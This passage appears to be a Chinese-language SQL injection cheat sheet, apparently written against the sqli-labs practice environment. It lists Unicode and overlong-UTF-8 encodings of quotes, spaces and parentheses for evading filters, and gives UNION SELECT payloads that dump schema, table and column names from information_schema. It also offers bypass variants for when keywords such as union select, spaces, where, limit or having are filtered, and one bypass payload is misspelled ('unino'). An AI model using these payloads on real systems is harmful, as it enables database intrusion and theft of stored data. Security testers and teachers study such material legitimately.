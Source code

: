 ```
字母a：
 %u0000 %u0041 %u0061 %u00aa %u00e2
单引号：
 %u0027 %u02b9 %u02bc %u02c8 %u2032 %uff07 %c0%27 %c0%a7 %e0%80%a7
空白：
 %u0020 %uff00 %c0%20 %c0%a0 %e0%80%a0
左括号(： 
 %u0028 %uff08 %c0%28 %c0%a8 %e0%80%a8
右括号)：
 %u0029 %uff09 %c0%29 %c0%a9 %e0%80%a9
```

### union注入
有回显，使用order by探测列。如果被过滤了只能强行使用union慢慢测试了....

**语句**

注入数据的过程：
```SQL
union select 1,group_concat(schema_name),3 from information_schema.schemata
	union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'
	union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'
```

**绕过**

考虑双写(oorr)，大小写，内联注释，编码，等价替换，用户变量等绕过手段,如：
- 过滤了`union select`
```sql
select 1 union(select(username)from(users));
```
`union select`里面还可以使用`all`,`distinct`。也可以考虑使用编码`09 0A 0B 0C 0D A0 20`替代空格等。
- 过滤了空格
```SQL
select~1
select@1
select-1
select!1
select username from test.users where id =1e0union select 1;
select username from test.users where id =.1union select 1;
select'1'
```
- 过滤了where
```SQL
union select username from users limit 1;
```
- 过滤了limit
```SQL
union select username from users group by id having id=1;
```
- 过滤了having
```SQL
unino select group_concat(username) from users;
```
